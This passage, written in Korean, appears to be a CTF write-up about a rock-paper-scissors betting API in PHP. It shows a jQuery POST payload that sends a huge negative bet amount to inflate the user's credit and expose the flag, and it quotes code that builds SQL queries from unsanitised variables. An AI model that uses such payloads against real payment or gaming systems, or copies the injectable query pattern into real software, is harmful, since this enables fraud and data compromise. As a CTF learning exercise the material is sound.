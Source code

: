 ```php
    $result = random_choice($result_table);

    $heap = $stack;
    if($result == "win") {
        $heap = ($stack + 1) % 3;
    }
    else if ($result == "lose") {
        $heap = ($stack + 2) % 3;
    }

    $win = false;
    if($result == $sel) {
        $pay = $am * 1.95;
        mysqli_query($conn, "update user set credit = credit + $pay where userid = '$u';");
        $win = true;
    }

    success("", array(
        "win" => $win,
        "stack" => $stack,
        "heap" => $heap
    ));
}
error("Invalid API call");
```

{: file="api/game_rsp.php" }
다만, 눈 여겨볼 점으로는 am 변수 값에 credit amount 값이 들어가게 되는데, mysql query 문을 보면 -(마이너스)연산자로 credit 값을 연산하고 있고, 음수에 대한 필터링이 별도로 없는 것을 알 수 있었습니다. 때문에 credit amount 값을 음수로 주어 비용으로 지불하는 값을 차감되는 게 아니라 오히려 돈을 불릴 수 있는 취약점이 발생하게 됩니다.

## Exploit

공격 페이로드는 다음과 같습니다.

```javascript
$.post("/api/game_rsp.php", {
  amount: "-99999999999999",
  sel: "win",
});
```

그리고 결과를 확인해보면 돈이 엄청 불어나 Flag 값이 보이는 것을 알 수 있습니다.
